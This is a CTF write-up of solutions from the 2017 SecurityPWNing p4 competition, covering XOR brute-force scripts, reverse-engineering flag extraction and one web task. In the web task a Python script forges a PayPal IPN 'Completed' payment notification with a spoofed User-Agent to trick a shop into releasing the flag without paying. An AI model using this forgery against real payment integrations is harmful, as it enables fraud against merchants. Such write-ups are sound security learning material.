







# SecurityPWNing 2017 - p4 CTF

On 6th & 7th November 2017 there was a 2nd edition of Security Pwning conference held in Warsaw and, like the last time ([link1](https://ctfs.ghost.io/security-pwning-ctf-by-p4/), [link2](https://ctfs.ghost.io/security-pwning-ctf-by-p4-cont/)), there was a [CTF organized by the P4 team](https://pwning2017.p4.team).

This year I did a bit better then the last time - 8th position (the last one with the prize) but could be better as at some point I was on the 5th. Here are solutions to the tasks I've managed to solve.

# xor (crypto 25)

One of the easier task was a basic xor with one char password. A simple brute running for a few seconds and we got it deciphered. It's a [description of episode 1 of Mr. Robot](https://en.wikipedia.org/wiki/List_of_Mr._Robot_episodes) and the flag is: `pwn{almost-like-mr-robot}`.

# xorxor (crypto 25)

This one was a bit more difficult as the xor key was a 4 char string. Of course it's still brutable so a short script will give us the flag but it might take a bit more time. A small observation of the included data can help us as it's clearly visible that thy key would be in the higher values so we can go down from 255 rather than from 0.
[code]
    import string
    import itertools
    data = open('xorxor_b8cf1bd02512e3294f069089803d3840.dms').read()

    for key in itertools.product(range(255,0,-1),repeat=4):
    	decipher = ""
    	for i in range(len(data)):
    		z = chr(key[i % len(key)] ^ ord(data[i]))
    		if z not in string.printable:
    			break
    		decipher += z
    	if "pwn{" in decipher and all(c in string.printable for c in decipher):
    		print decipher, key

[/code]

Key used for xoring was (0x92, 0x81, 0xa7, 0xbf), and the flag: `pwn{cyber-cyber-co-z-ciebie-wyrosnie}`.

# xorxorxor (crypto 25)

This one was the "hardest" as the length of the key is unknown. But this can't stop us from solving it. For that we'll use [xortool](https://github.com/hellman/xortool).

Running this tool will show us the probability of the specific length of the key that might be used. Running this tool on the data will give us:

Assuming the key is long, I've took a educated guess it will be 23 char and with providing an input for the most occuring char being the space we get the flag:

`pwn{revenge-of-the-xor}`

# sprzedam flagę (web 150)

This one was one of the most interesting one (from those I did of course). What we asked to do was to pay $ 12300 and we will get the flag. Of course noone would pay that much to get the flag so we need to trick the service into thinking we actually did pay that amount. The web page had only the standard "Pay" button.
Upon inspection of the HTML we notice all the bits and pieces that are required for PayPay are there including the URL that will listen to PayPay notification of the successful transaction. Maybe it's not written properly and we can forge one.

So we need to send a forged successful payment request and after that check the transaction result. We can do that with a simple Python script
[code]
    import requests
    import re

    url1 = "https://paypal.pwning2017.p4.team/"

    w = requests.get(url1).text
    print w
    url2 = re.search('input type="hidden" name="notify_url" value="([^"]+)"', w)
    print url2.group(1)

    data = {'payment_gross':'12300.00', 'mc_currency':'USD','mc_gross':'12300.00','payer_email':'t%40p.pl','txn_type':'web_accept','payment_status':'Completed'}
    headers = {'User-agent': 'PayPal IPN ( https://www.paypal.com/ipn )'}
    w2 = requests.post(url2.group(1), data=data, headers=headers)

    url3 = re.search('input type="hidden" name="return" value="([^"]+)"', w)
    print url3.group(1)

    w3 = requests.get(url3.group(1))

    print w3.headers
    print w3.text
[/code]

There are some checks in the script (like checking the User agent) but we can easly beat those. Running the script will give us the flag: `pwn{paypal_integrated_in_a_very_shitty_way_lawl}`.

# Reverse It (re 50)

This was a simple Windows RE. When run it shows nice ASCII art which is also used for displaing 'No', 'Yes' message so you can't fined them (easily) in the resources.

The algo itself is simple, it xores first char, with the next one and so on. You can get it from the code and it's also confiremd by the unencrypted last char for the encrypted password found in the binary.

Short python script that reverses the process and we extract the flag:
[code]
    import string

    inp = "\x07\x19\x15\x18\x11\x0B\x09\x04\x1B\x30\x1E\x0F\x0a\x1B\x2D\x17\x13\x13\x17\x01\x16\x18\x7D\x00"
    print len(inp)
    wynik = ""
    l = len(inp)
    c = ord(inp[l-1])
    for z in range(0,len(inp)-1):
    	c = c ^ ord(inp[l-z-2])
    	print z,inp[l-z-1],inp[l-z-2],chr(c)
    	wynik += chr(c)

    print wynik[::-1]

[/code]

`pwn{crypto_AND_reverse}`.

# Simple keygen (re 50)

This time an ELF binary with a bit more challenging `checkFlag` function that was doing a cascading checks.

It could be solvable with symbolic execution (but I'm not skilled there yet) so I went with the manual approch. There's not that many letters and they are easily retreivable so I did not spend that much time on it and got the flag: `pwn{recovering_flag_one_byte_at_a_time}`.

# Uber keygen (re 100)

This one looks like a big brother of the previous one. There are far more check, too many to do the manual recovery and if we look closer it looks like this time we are retreiving the flag bit by bit. We need some automated way then. Again it would be perfect for symbolic execution but I went with radare2 (namely r2pipe).

I've written (no so simple) script that runs through the binary and extracts the flag.

[View Gist](https://gist.github.com/pawlos/0ef493020c485f64705f0e00eb2d15d1)

And running it will give us the flag: `pwn{instrumented_run_one_bit_at_a_time}`.

# Nieznany format (re 100)

In this one we were give na [text file](https://pwning2017.p4.team/downloads/vuln.ll_ff667d25b3a2db3c391da9ea65e132ab6b6adc86.txt) with an "unknown" format. It looks like some kind of Asm and upon further inspections it's probably generated by clang.

> clang version 6.0.0

My first impression was to to understand the format completle and I was started to comment the file but after a short while I've noticed a repeted pattern like this:

` %14 = icmp eq i32 %13, 119`

Hmm...icmp and a value (119) that looks like a valid ASCII character. Let's check what's that value is mapped to. A short `chr(119)` in python and we get `w`. Looks like we got a second char in `pwn`. Let's write a short script that will extract those and concat:
[code]
    import re

    lines = open('converted.asm').readlines()

    w = ""
    for l in lines:
    	if "icmp" in l:
    		print l
    		m = re.match("\s+%\d+ = icmp eq i32 %(\d+), (\d+)", l)
    		print m.group(2)
    		w += chr(int(m.group(2)))
    		print w

    print w
[/code]

And we get the flag: `pwn{more_bitcode_more_fun}`.

# Millitary grade algorithm (re 150)

The last RE challange was similar to the previous one but here each char is checked with a separate `check_flag_x` function. This already gives us the information about the length but makes a bit more difficuly if we want to take the same approch as with "Uber keygen". At first I've tried that but the functions are a bit more complex and again it would be perfect to do the symbolic executions here. I did somethign else. I've rewritten some of the `check_flag_x` in python and run them to get the flag char.

When I run it (not even fully implemented all the methods) I got some gibberish on one or two chars (and it looks like there is some error i.e. char 11) but it was correct on so many chars that I could reterive the flag:

`pwn{wymbolic_execution_4_the_win}`.
